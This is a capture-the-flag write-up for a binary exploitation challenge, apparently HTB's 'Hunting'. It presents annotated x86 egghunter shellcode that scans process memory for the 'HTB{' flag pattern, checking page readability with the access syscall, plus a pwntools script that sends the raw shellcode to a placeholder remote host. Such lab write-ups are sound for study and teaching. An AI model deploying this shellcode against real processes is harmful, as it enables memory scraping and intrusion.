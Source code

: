 - the program is allocating memory for the flag to store it and after corrupt it, so the only solution to this challenge is to scan process memory for 'HTB{' pattern.
![pwn_hunting-copy and corrupt the flag](https://github.com/0xPrimo/CTFs/assets/93877982/58e8b19c-861b-46e1-9d1f-ea70d0f185bc)
- we will face one problem which is if the memory page we want to read have READ permission or not. we'll use `access` SYSCALL to check that.

- we'll use `egghunter` shellcode to find the pattern (egg) and print it using `write` SYSCALL.
```
	31 C0               	xor     eax, eax
	89 C7               	mov     edi, eax
	BF 48 54 42 7B          mov     edi, 7B425448h
	
	            		next_page:                           
	
	66 81 CA FF 0F          or      dx, 0FFFh
	
	                    next_address:
	
	42                      inc     edx
	60                      pusha
	31 C9                   xor     ecx, ecx        ; mode
	8D 5A 04                lea     ebx, [edx+4]    ; pathname
	B0 21                   mov     al, 21h ; '!'
	CD 80                   int     80h             ; LINUX 	sys_access
	3C F2                   cmp     al, 0F2h
	61                      popa
	74 EB                   jz      short next_page
	39 3A                   cmp     [edx], edi
	75 EC                   jnz     short next_address


	89 D1                   mov     ecx, edx        ; addr
	31 C0                   xor     eax, eax
	89 C3                   mov     ebx, eax
	89 DA                   mov     edx, ebx

						print_flag:
 	B0 04                   mov     al, 4
 	B3 01                   mov     bl, 1           ; fd
	B2 01                   mov     dl, 1
	CD 80                   int     80h             ; LINUX - sys_write
	41                      inc     ecx
	38 31                   cmp     [ecx], dh
	75 F3                   jnz     short print_flag
	C3                      retn
```
- python script

```
from pwn import *

shellcode = b'\x31\xc0\x89\xc7\xbf\x48\x54\x42\x7b\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x31\xc0\x89\xc3\x89\xda\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x41\x38\x31\x75\xf3\xc3'


context.update(arch="i386", os="linux")


r = remote("<ip>", <port>)

r.send(shellcode)

flag = r.recv()
log.success(str(flag))
r.close()
```
